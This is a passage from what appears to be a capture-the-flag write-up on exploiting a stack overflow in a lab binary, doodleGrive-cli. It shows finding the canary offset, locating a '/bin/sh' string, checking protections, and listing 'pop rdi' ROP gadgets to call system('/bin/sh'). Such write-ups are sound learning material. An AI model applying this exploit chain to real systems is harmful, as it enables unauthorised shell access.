     Breakpoint 1, 0x0000000000402327 in main ()
    

This value is the part of the pattern that ended up as the canary.
`pattern_offset` will show how far into the pattern that is:

    
    
    oxdf@hacky$ pattern_offset -q 4130634139624138
    [*] Exact match at offset 56
    

So I want 56 bytes then the leaked canary and then the return address.

#### Addresses

My strategy is going to be to call `system("/bin/sh")`. I’ll need a `/bin/sh`
string to pass to `system`. I can’t send it myself, as `/` is a banned
character. But it exists in the binary:

    
    
    oxdf@hacky$ strings -a -t x doodleGrive-cli | grep bin/sh
      97cd5 /bin/sh
    

Because the binary has PIE disabled, this should be at the same place every
time:

    
    
    gdb-peda$ checksec 
    CANARY    : ENABLED
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial
    

I’ll also need the address of `system` (and `exit` if I want to be clean), and
those are easily found with `pwntools` in Python by loading the binary (`elf =
ELF("./doodleGrive-cli")`) and then referencing the addresses
(`elf.sym.system` and `elf.sym.exit`).

Finally, I need two gadgets. In 64-bit, the first argument to `system` will be
the string at the address in RDI. So I need a `pop $rdi; ret` gadget. I’ll
also need a plain `ret` gadget for stack alignment.

[Ropper]() is a nice tool for this:

    
    
    oxdf@hacky$ ropper -f ./doodleGrive-cli --search "pop rdi"
    [INFO] Load gadgets from cache
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    [INFO] Searching for gadgets: pop rdi
    
    [INFO] File: ./doodleGrive-cli
    0x000000000044734d: pop rdi; add eax, dword ptr [rax]; add byte ptr [rax - 0x7d], cl; ret 0x4910; 
    0x00000000004569a0: pop rdi; call rax; 
    0x00000000004569a0: pop rdi; call rax; mov rdi, rax; mov eax, 0x3c; syscall; 
    0x00000000004675cd: pop rdi; idiv esi; jmp qword ptr [rsi + 0x2e]; 
    0x0000000000436eb9: pop rdi; in al, dx; mov qword ptr [rdi - 0xc], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436cc9: pop rdi; in eax, dx; mov qword ptr [rdi - 0xb], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x000000000042831d: pop rdi; jmp rax; 
    0x000000000041935f: pop rdi; or byte ptr [rbx - 0x76fefbb9], al; ret 0xe281; 
    0x0000000000410a40: pop rdi; or eax, dword ptr [rax]; syscall; 
    0x0000000000436ae9: pop rdi; out dx, al; mov qword ptr [rdi - 0xa], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436919: pop rdi; out dx, eax; mov qword ptr [rdi - 9], r8; mov dword ptr [rdi - 4], edx; ret; 